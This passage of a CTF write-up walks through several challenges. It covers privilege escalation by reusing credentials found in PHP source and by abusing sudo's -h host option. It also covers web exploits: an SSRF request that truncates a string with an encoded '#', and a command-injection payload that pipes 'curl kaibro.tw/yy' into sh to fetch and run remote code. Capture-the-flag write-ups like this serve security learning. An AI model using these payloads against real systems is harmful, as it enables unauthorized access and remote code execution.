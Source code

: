     $user = "tsjadmin";
    $pass = "tsjadmin@nentaupoliceoffice";
    $db = new PDO("mysql:host=$host;dbname=$dbname", $user, $pass);
    session_start();
    ...
    ```
5. `su tsjadmin` with password: `tsjadmin@nentaupoliceoffice`
6. `cat /flag1.txt`
    - `TSJ{Just_an_simple_Penetration_Testing_challenge}`

### Nentau Police Office - 2

- `flag2.txt` permission
    - `-r-------- 1 root root 33 Feb 18 07:56 flag2.txt`
- sudoer file
    - `/etc/sudoers.d/sudoers-tsj`
    ```
    tsjadmin workstation=(ALL:ALL)  /bin/cat
    tsjadmin nentaupoliceoffice=(ALL:ALL)  /bin/ls
    ```
- use sudo `-h` option to bypass host limit
    - `sudo -h workstation /bin/cat /flag*`
        - `TSJ{What_use_of_the_-h_option???}`

## web

### Nimja at Nantou

Use `#` to bypass the appended `hello`

```http
POST /hello-from-the-world/get_hello?host=http://localhost/%23 HTTP/1.1
Host: xxx
Connection: close
Content-Length: 0
```

Then get the key `T$J_CTF_15_FUN_>_<_bY_Th3_wAy_IT_is_tHE_KEEEEEEEY_n0t_THE_flag`

Use double slash to bypass proxy's limit, and use `{"service":["xxx"]}` to bypass `sanitizeShellString`.


```http
POST /service-info//admin HTTP/1.1
Host: xxx
Connection: close
Content-Length: 114

{"service":["|`curl kaibro.tw/yy|sh`|"],"key": "T$J_CTF_15_FUN_>_<_bY_Th3_wAy_IT_is_tHE_KEEEEEEEY_n0t_THE_flag"}
```

`TSJ{HR5_1S_C001_XD_L3ts_gooooo}`
